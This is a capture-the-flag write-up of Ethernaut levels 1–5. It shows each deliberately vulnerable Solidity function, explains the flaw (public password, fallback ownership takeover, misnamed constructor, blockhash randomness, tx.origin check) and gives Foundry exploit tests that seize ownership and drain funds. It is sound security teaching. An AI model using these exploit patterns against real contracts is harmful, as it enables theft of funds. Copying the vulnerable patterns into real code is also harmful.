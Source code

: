 # Ethernaut Challenges: Levels 1–5


🔗 **GitHub**: [View Level 1](https://github.com/NithinkumarPedda/ethernaut-solutions/tree/main/level1)

## Level 1: Hello Ethernaut

### 🔍 Vulnerable Function
```solidity
function authenticate(string memory passkey) public {
    if (
        keccak256(abi.encodePacked(passkey)) ==
        keccak256(abi.encodePacked(password))
    ) {
        cleared = true;
    }
}
```

**Vulnerability**: The `password` variable is marked as `public`, which allows anyone to call `.password()` and get the secret directly.

### 🧪 Exploit Test
```solidity
function test_pass_attack() public {
    vm.startPrank(attacker);
    string memory resultpass = instance.password();
    assertEq(resultpass, password, "password failed");
}

function test_attack() public {
    vm.startPrank(attacker);

    string memory result = instance.info();
    result = instance.info1();
    result = instance.info2("hello");
    result = instance.info42();
    result = instance.method7123949();

    instance.authenticate(password);

    bool cleared = instance.getCleared();
    assertTrue(cleared, "Authentication failed");
    vm.stopPrank();
}
```


---

## Level 2: Fallback

### 🔍 Vulnerable Function
```solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
}
```

**Vulnerability**: The fallback function allows any contributor to become the `owner` by sending ETH directly to the contract. The original `owner` logic is also flawed—it can be overtaken easily by minimal contributions.

### 🧪 Exploit Test
```solidity
function test_attack() public {
    vm.startPrank(attacker);
    _fallback.contribute{value: 0.0001 ether}();

    (bool success, ) = address(_fallback).call{value: 0.001 ether}("");
    require(success, "Fallback call failed");

    assertEq(_fallback.owner(), attacker, "Attacker is not the owner after fallback");
}

function test_withdraw() public {
    vm.startPrank(attacker2);
    _fallback.contribute{value: 0.0001 ether}();
    _fallback.contribute{value: 0.0001 ether}();
    vm.stopPrank();

    vm.startPrank(attacker);
    _fallback.contribute{value: 0.0001 ether}();
    (bool success, ) = address(_fallback).call{value: 0.001 ether}("");
    require(success, "Fallback call failed");

    uint256 balanceBefore = address(_fallback).balance;
    _fallback.withdraw();

    assertTrue(attacker.balance >= balanceBefore, "Attacker did not receive the funds");
    assertTrue(address(_fallback).balance == 0, "Contract balance is not zero after withdraw");
    vm.stopPrank();
}
```



---

## Level 3: Fallout

### 🔍 Vulnerable Function
```solidity
function Fal1out() public payable {
    owner = payable(msg.sender);
    allocations[owner] = msg.value;
}
```

**Vulnerability**: The function `Fal1out()` is incorrectly named. It looks like a constructor but is actually a public function. Anyone can call it and become the `owner`.

### 🧪 Exploit Test
```solidity
function test_attack() public {
    vm.startPrank(attacker2);
    _fallout.allocate{value: 2 ether}();
    vm.stopPrank();

    vm.startPrank(attacker);
    _fallout.Fal1out{value: 2 ether}();
    _fallout.collectAllocations();

    assertTrue(address(_fallout).balance == 0, "attacker balance should be 0");
    vm.stopPrank();
}
```



---

## Level 4: CoinFlip

### 🔍 Vulnerable Function
```solidity
function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
        revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
        consecutiveWins++;
        return true;
    } else {
        consecutiveWins = 0;
        return false;
    }
}
```

**Vulnerability**: Uses predictable `blockhash` to generate randomness. The attacker can precompute the same value and always win the flip.

### 🧪 Exploit Test
```solidity
function test_attack() public {
    vm.startPrank(attacker);

    for (uint256 i = 0; i < 10; i++) {
        vm.roll(block.number + 1);
        coinFlipAttack.attack();
    }

    assertEq(
        coinFlip.consecutiveWins(),
        10,
        "Attack failed to reach 10 wins"
    );

    vm.stopPrank();
}
```

---

## Level 5: Telephone

### 🔍 Vulnerable Function
```solidity
function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
        owner = _owner;
    }
}
```

**Vulnerability**: The contract uses `tx.origin` instead of `msg.sender` for access control. An attacker can create a contract that calls this function, with the `tx.origin` being a user (player), and `msg.sender` being the attack contract. This bypasses the condition and changes the ownership.

### 🧪 Exploit Test
```solidity
function test_attack() public {
    vm.startPrank(attacker);
    telephone.changeOwner(attacker);
    assertEq(telephone.owner(), attacker, "attacker should be the owner");
    vm.stopPrank();
}

function test_attack2() public {
    vm.startPrank(player);
    TelephoneExploit exploit = new TelephoneExploit(telephone);
    exploit.attack(attacker);
    assertEq(telephone.owner(), attacker, "attacker should be the owner");
    vm.stopPrank();
}
```



---

✅ Ready for **Level 6** — coming soon!

